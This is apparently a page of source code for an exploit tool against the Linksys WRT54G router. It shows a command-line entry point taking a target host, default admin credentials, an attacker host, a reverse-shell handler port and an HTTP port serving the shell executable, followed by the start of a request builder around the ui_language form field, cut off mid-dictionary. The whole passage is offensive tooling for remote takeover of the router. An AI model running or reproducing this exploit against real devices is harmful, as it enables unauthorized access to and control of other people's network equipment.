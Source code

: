 ```


def main():
    parser = argparse.ArgumentParser(description='LinkSYS WRT54G Exploitation.',
                                     formatter_class=argparse.ArgumentDefaultsHelpFormatter)
    parser.add_argument('--host', required=True, help='Host of the router.')
    parser.add_argument('--username', default='admin', help='Router\'s username.')
    parser.add_argument('--password', default='admin', help='Router\'s password.')
    parser.add_argument('--attacker-host', required=True, help='Attacker\'s host.')
    parser.add_argument('--attacker-handler-port', type=int, default=4141, help='Reverse shell TCP handler port.')
    parser.add_argument('--attacker-http-port', type=int, default=8000,
                        help='HTTP server port to serve the reverse shell executable.')
    args = parser.parse_args()

    router = Router(args.host, (args.username, args.password))
    router.exploit(args.attacker_host, args.attacker_handler_port, args.attacker_http_port)


if __name__ == '__main__':
    main()
```



**router_requests.py**

```
import ipaddress


def get_ui_language_query(ui_language):
    return {
        "ui_language": ui_language,
        "lan_ipaddr_0": "192",
        "lan_ipaddr_1": "169",
        "lan_ipaddr_2": "1",
        "lan_ipaddr_3": "100",
        "lan_netmask": "255.255.255.0",
        "submit_button": "index",
        "change_action": "gozila_cgi",
        "submit_type": "language",
        "action": "",
        "now_proto": "dhcp",
        "daylight_time": "0",
        "lan_ipaddr": "4",
        "wait_time": "0",
        "need_reboot": "0",
        "wan_proto": "dhcp",
        "router_name": "WRT54G",
        "wan_hostname": "",
        "wan_domain": "",
        "mtu_enable": "0",
        "lan_proto": "dhcp",
        "dhcp_check": "",
        "dhcp_start": "100",
        "dhcp_num": "50",
        "dhcp_lease": "0",
        "wan_dns": "4",
        "wan_dns0_0": "0",
        "wan_dns0_1": "0",
        "wan_dns0_2": "0",
        "wan_dns0_3": "0",
        "wan_dns1_0": "0",
        "wan_dns1_1": "0",
```